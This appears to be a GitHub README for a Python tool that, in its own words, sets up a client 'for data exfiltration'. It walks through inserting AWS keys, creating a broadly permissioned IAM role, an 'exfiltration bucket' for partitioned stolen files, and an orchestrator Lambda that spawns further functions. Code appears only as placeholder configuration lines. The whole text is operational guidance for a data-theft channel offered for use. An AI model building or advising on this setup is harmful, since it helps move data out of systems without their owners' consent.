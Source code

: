 # standaloneClient
## Usage
`py clientName.py "Path_to_file"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

##### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.

*Line 11*  Modify partition size
`partitionSize = 100 #Change for desired partition size`
*Line 42*  Modify Orchestrator function name (Rem)
`orq_response = self.aws_lambda.invoke(FunctionName = '<ORCHESTRATOR_FUNCTION_NAME>', Payload = orqPayload_json)`
*Line 85* Modify with AWS Keys
`client.awsConnect('<ACCESS_KEY_ID>','<SECRET_ACCESS_KEY_ID>','<REGION>')`

##### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

##### S3 Console
We will now create 2 buckets.
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).
The **template bucket** in which we will save the template used for creating the lambda functions required.
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.

##### Sample Function Setup
Open `sampleFunction_template.py`.
*Line 6*  Modify with the exfiltration bucket name
`bucket_name = "<EXFILTRATION_BUCKET_NAME>"`

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.

##### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.

*Line 26*  Modify IAM Role ARN
`Role = '<LAMBDA_S3_IAM_ROLE>'`
*Line 29*  Modify Template Bucket Name
`'S3Bucket': '<TEMPLATES_BUCKET>'`
*Line 30* Modify Compressed function name
`'S3Key': '<COMPRESSED_FUNCTION_NAME>'`

Increase the timeout of this function to 1 minute and memory to 512MB
